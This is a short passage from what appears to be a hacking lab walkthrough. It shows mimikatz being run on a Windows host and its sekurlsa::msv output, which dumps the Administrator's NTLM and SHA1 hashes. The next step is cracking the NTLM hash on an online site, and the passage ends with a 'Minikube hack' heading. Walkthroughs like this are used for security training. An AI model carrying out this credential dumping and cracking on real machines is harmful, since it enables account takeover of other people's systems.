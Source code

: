 - start mimikatz and dump credentials from windows `lsass.exe` process

```powershell
PS C:\windows\temp\mimikatz_trunk\x64> .\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 3255438 (00000000:0031ac8e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : EC2AMAZ-5A4CSBH
Logon Server      : EC2AMAZ-5A4CSBH
Logon Time        : 6/3/2022 9:35:18 AM
SID               : S-1-5-21-2073652273-2496418537-3488842278-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : EC2AMAZ-5A4CSBH
         * NTLM     : 7facdc498ed1680c4fd1448319a8c04f
         * SHA1     : 24b8b6c9cbe3cd8818683ab9cd0d3de14fc5c40b
.......
```

- use the web page [https://crackstation.net/](https://crackstation.net/) to crack the NTLM-hash of the Administrator

# Minikube hack

![Kubernetes hack](../assets/kubernetes-hack.png)
